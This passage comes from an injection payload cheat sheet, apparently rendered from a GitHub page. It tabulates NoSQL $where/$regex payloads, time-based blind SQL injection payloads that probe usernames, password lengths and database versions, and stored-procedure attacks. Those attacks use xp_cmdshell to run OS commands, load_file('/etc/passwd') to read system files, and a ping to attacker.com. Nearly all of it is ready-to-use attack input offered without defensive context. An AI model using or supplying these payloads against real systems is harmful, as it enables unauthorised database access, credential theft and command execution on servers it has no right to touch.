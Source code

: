 | 8. {"$where": "function() { sleep(5); }"} -- |
| 9. {"$regex": "^admin"} -- |
| 10. {$where: "this.password.match(/.*/)" } -- |

---

### 9. **Time-based Blind with Multiple Conditions**
*Combine multiple delays to infer complex data.*

| Payloads |
|---|
| 1. ' AND (SELECT SLEEP(0.5)) AND (SELECT SLEEP(0.5)) -- |
| 2. ' AND (SELECT CASE WHEN (1=1) THEN SLEEP(0.3) ELSE 0 END) -- |
| 3. ' AND (SELECT CASE WHEN (username='admin') THEN SLEEP(0.4) ELSE 0 END) -- |
| 4. ' AND (SELECT CASE WHEN (LENGTH(password)>8) THEN SLEEP(0.6) ELSE 0 END) -- |
| 5. ' AND (SELECT CASE WHEN (substring(version(),1,1)='5') THEN SLEEP(0.7) ELSE 0 END) -- |
| 6. ' AND (SELECT CASE WHEN (user()='root') THEN SLEEP(0.8) ELSE 0 END) -- |
| 7. ' AND (SELECT CASE WHEN (database()='mydb') THEN SLEEP(0.9) ELSE 0 END) -- |
| 8. ' AND (SELECT CASE WHEN (length(user())=5) THEN SLEEP(1) ELSE 0 END) -- |
| 9. ' AND (SELECT CASE WHEN (version() LIKE '5%') THEN SLEEP(1.1) ELSE 0 END) -- |
| 10. ' AND (SELECT CASE WHEN (user() like '%admin%') THEN SLEEP(1.2) ELSE 0 END) -- |

---

### 10. **Exploiting Stored Procedures and Functions**
*Inject into stored procedures or user-defined functions.*

| Payloads |
|---|
| 1. '; EXEC master..xp_cmdshell('whoami') -- |
| 2. '; SELECT load_file('/etc/passwd') -- |
| 3. '; EXEC sys.sp_executesql('SELECT version()') -- |
| 4. '; CALL get_user_info() -- |
| 5. '; EXEC xp_cmdshell('ping attacker.com') -- |
| 6. '; SELECT * FROM sysobjects -- |
| 7. '; EXEC sp_helptext 'dangerous_proc' -- |
| 8. '; EXECUTE IMMEDIATE('SELECT version()') -- |
| 9. '; EXEC sys.xp_cmdshell('net user') -- |
| 10. '; EXEC('whoami') -- |

---

